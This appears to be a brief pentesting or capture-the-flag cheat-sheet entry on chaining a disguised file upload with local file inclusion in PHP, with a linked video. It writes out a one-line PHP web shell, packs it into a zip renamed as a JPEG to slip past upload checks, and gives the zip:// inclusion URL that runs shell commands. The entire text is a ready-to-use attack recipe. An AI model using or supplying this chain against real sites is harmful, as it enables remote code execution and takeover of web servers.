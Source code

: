 #lfi #file_upload #php
https://www.youtube.com/watch?v=pKzHFx8oSrw 

```bash
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
```

```bash
zip payload.zip payload.php
mv payload.zip image.jpg
```

→ Upload file. Then go to:
```
?file=zip://upload/image.jpg%23payload&cmd=ls`
```